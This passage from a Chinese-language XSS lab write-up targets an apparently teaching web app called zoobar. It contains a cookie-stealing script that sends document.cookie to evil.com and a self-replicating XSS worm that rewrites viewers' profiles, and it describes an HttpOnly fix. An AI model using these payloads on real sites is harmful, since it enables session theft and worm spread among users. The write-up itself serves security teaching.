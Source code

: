 ```
<script>
document.write(\'<img src = "http://www.evil.com/stealcookie.php?cookie=\');
document.write(document.cookie);
document.write(\'"></img>\');
</script>
```

这段代码的意思即将用户的cookie当作get请求的关键字value传向刚刚写好的恶意页面，当正常用户查看attacker2的profile时，自己的cookie就会被偷走

![image.png-374.9kB][18]

![image.png-404.6kB][19]

![image.png-18kB][20]

### 针对Cookie的防护
如果不想用户的cookie被这种方式盗窃，则需要网页程序员进行一定的改进

通过将cookie设置为HttpOnly，则不可以通过JavaScript访问到该cookie

在auth.php中修改setcookie

![image.png-10.8kB][21]

再次打开attacker2的profile

![image.png-400.1kB][22]

![image.png-10.3kB][23]

可以看到只有PHPSESSID这个cookie了，因为这个cookie是php使用`session_start()`自动创建的cookie，所以并不重要，重要的和登陆相关的zoobarlogin已经不能被读取了

### XSS蠕虫
接下来要实现一个高级一点的XSS攻击，即XSS蠕虫
XSS蠕虫的意思即可以实现感染，当用户浏览攻击者的profile时，自己的profile也会被更改，以此类推，XSS蠕虫将一层层感染更多的人

这主要也是通过注入代码实现的，我们先实现简单的感染功能，将attacker3的profile更改如下
```
<span id="hack">
<script>
var str = "<span id=hack>";
str += document.getElementById("hack").innerHTML + "</span>";
var turnForm = document.createElement("form");   
document.body.appendChild(turnForm);
turnForm.method = "post";
turnForm.action = "/index.php";
var newElement = document.createElement("input");
newElement.setAttribute("name","profile_update");
newElement.setAttribute("type","hidden");
newElement.setAttribute("value",str);
turnForm.appendChild(newElement);
var newElement2 = document.createElement("input");
newElement2.setAttribute("name","profile_submit");
newElement2.setAttribute("type","hidden");
newElement2.setAttribute("value","Save");
turnForm.appendChild(newElement2);
turnForm.submit();
</script>
</span>
```


  [1]: http://static.zybuluo.com/windmelon/wb811isbgudgxpwq3gql295l/image.png
  [2]: http://static.zybuluo.com/windmelon/wyx5ihu7231uhd2z4zen96v0/image.png
  [3]: http://static.zybuluo.com/windmelon/459nrgijj9fcfe1mnwmocwaz/image.png
  [4]: http://static.zybuluo.com/windmelon/4apbtvxowy8byf2r8sy00vwc/image.png
  [5]: http://static.zybuluo.com/windmelon/zhv22vh8kiee315pynnekpay/image.png
  [6]: http://static.zybuluo.com/windmelon/oyxu17g61e73obkuqpicdt5s/image.png
  [7]: http://static.zybuluo.com/windmelon/zueizan9qwib440o3u7e65r1/image.png
  [8]: http://static.zybuluo.com/windmelon/yuz8tlyumpk4iley96kh2zat/image.png
  [9]: http://static.zybuluo.com/windmelon/4sl9akwn8wkif8saiz18ych2/image.png
  [10]: http://static.zybuluo.com/windmelon/an7u931j8d3k2kloew2dqx4s/image.png
  [11]: http://static.zybuluo.com/windmelon/cm5fhx4rqefxyqgf9bf54mye/image.png
  [12]: http://static.zybuluo.com/windmelon/onasvozrwzjeke0v79ou4gf6/image.png
  [13]: http://static.zybuluo.com/windmelon/f2p365lanf3o5z0m81oissef/image.png
  [14]: http://static.zybuluo.com/windmelon/td0ujhhpj98huuavszqte7af/image.png
  [15]: http://static.zybuluo.com/windmelon/e2i42q655dvysq1vzib6db4o/image.png
  [16]: http://static.zybuluo.com/windmelon/oh1qedj7ib0l4zassgjw3egx/image.png
  [17]: http://static.zybuluo.com/windmelon/uztoeycovas7djn70ufmnxv6/image.png
  [18]: http://static.zybuluo.com/windmelon/1ukhzrrze1yfio0jr0dfecot/image.png
  [19]: http://static.zybuluo.com/windmelon/hq9z9c0vqadofbneknehndmu/image.png
  [20]: http://static.zybuluo.com/windmelon/4xzlyz6fwizmhi5cwruwj0fy/image.png
  [21]: http://static.zybuluo.com/windmelon/82u2r6moargordan63iegyl4/image.png
  [22]: http://static.zybuluo.com/windmelon/u1v3flj7eqqdtuadwdggo3b7/image.png
  [23]: http://static.zybuluo.com/windmelon/7zqenr92vyowh26fhqrgn4oi/image.png
  [24]: http://static.zybuluo.com/windmelon/7pg51wksqvjvf8abqrfsrgk7/image.png
  [25]: http://static.zybuluo.com/windmelon/k0r0eu13ls0ig234fwn3tsnj/image.png